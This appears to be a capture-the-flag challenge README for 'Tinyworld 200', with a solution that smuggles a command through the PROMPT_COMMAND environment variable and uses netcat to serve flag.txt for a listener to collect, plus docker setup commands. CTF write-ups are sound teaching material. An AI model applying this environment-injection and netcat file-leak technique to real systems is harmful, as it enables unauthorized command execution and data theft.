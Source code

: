 # Tinyworld 200

In this challenge, competitors are provided with an anonymous SSH to a server under the username challenge@addr -p 2222 where when they log in they are presented with a prompt that will let them run any 5 character command with no special characters and set some environment variables, but not let them receive any output back from any of their commands.

## Solution

Run a server on your machine (replace localhost with the IP of the host where tinyworld.py is located)

    while true; do nc localhost 2050; done

ssh into the challenge box and run the following commands

    Give me an env key: PROMPT_COMMAND
    Give me an env value: eval cat flag.txt | nc -l -p 2050
    Give me a 5 char cmd: asdaa

The challenge box will then bind to port 2050 and brodcast the key for a short period of time and then exit. Note that competitors will need to perform a port scan in order to figure out which ports are actually available to bind to.

## Building/Running the Challenge

    docker build -t tinyworld-200 .

    docker run -d -p 2222:22 -p 2000-2100:2000-2100 --read-only --tmpfs /tmp tinyworld-200